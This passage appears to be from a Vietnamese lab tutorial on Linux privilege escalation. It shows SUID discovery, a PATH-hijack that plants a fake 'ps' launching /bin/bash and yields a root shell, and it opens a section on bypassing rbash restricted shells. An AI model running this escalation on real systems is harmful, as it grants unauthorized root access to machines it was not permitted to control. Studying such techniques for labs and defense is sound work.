 Tìm kiếm SUID

```none
┌──(test㉿kali)-[/tmp]
└─$ find / -perm -u=s -type f 2>/dev/null | grep test_python.py
/tmp/test_python.py
```


Tạo 1 file  ps

```none
echo "/bin/bash" > ps
chmod 777 ps
```


```none
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```

Thêm đường dẫn `tmp` có chưa file id vào `$PATH` :

```none
$ export PATH=/tmp:$PATH
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```

Chạy file test:

```none
$ python3 test_python.py
root@kali:/tmp# whoami
root
```

#  5. Bypass Restricted Shell
Trong quá trình làm các Labs - các Machine về Linux, các cách leo thang đặc quyền "truyền thống" theo ý nghĩa từ User có đặc quyền thấp lên User có đặc quyền cao hơn chiếm đa số. Nhưng song song với đó có những kỹ thuật leo quyền liên quan tới việc hạn chế khả năng thực thi command của người dùng. Đây là việc có xảy ra có real life khi quản trị viên muốn hạn chế quyền hạn, quyền truy cập, khả năng thực thi đối với một đối tượng người dùng nhất định.

Người dùng có thể truy cập thoải mái, nhưng tất cả những gì họ có thể làm đều nằm trong một ranh giới xác định và bị giới hạn, cực kỳ giới hạn! Đây gọi là **Restricted Shell**.

Nếu bạn đang dùng một OS nào đó thuộc distro Debian, mình tin khả năng cao là bạn đang sử dụng Bash shell. Và **rbash** cũng là loại Restricted Shell được dùng trong đa số trường hợp các labs/machine.

command:

```none
/bin/bash -r 
hoặc 
/bin/bash --restricted
```
